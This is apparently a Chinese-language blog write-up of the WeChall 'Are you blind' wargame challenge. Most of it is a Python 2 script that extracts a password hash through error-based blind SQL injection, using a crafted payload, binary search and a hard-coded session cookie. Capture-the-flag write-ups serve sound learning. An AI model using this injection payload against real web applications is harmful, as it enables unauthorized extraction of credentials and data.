 ```yaml
---
title: Are your blind
author: rk700
layout: post
categories:
  - writeup
tags:
  - mysql
  - wechall
---
```

[http://www.wechall.net/challenge/Mawekl/are\_you\_blind/index.php][1]  
这道题还是盲注，32位的hash，128次跑完。这里我们用报错的方法来判断

下面是python代码

{% highlight python %}
#!/usr/bin/env python2

import urllib
import urllib2

def makePayload(statement):
    return "' or if(substring(password,%d,1)%s'%s',3,(select 1 union select 2))=3-- " % (statement[0], statement[1], statement[2])
    
def checkResponse(response):
    return response.find("Database error") == -1

def doAssert(statement):
    url = "http://www.wechall.net/challenge/Mawekl/are_you_blind/index.php"
    values = {'injection':makePayload(statement),'inject':'Inject'}
    data = urllib.urlencode(values)
    req = urllib2.Request(url, data)
    req.add_header('cookie','WC=7374566-11403-7iblKzppaCoukyl1')
    response = urllib2.urlopen(req)
    content = response.read()

    return checkResponse(content)
 
if __name__ == "__main__":
    alphalist = "0123456789ABCDEF"
    result = []
    for idx in range(1,33):
        start = 0
        end = 16 #[start, end)
        while (start < end):
            #print("[%d, %d)" % (start, end))
            if (end - start == 1):
                result.append(alphalist[start])
                print alphalist[start]
                break
            else:
                middle = (start + end)/2
                if(doAssert([idx, '<', alphalist[middle]])):
                    end = middle
                else:
                    start = middle
    print ''.join(result)
{% endhighlight %}

 [1]: http://www.wechall.net/challenge/Mawekl/are_you_blind/index.php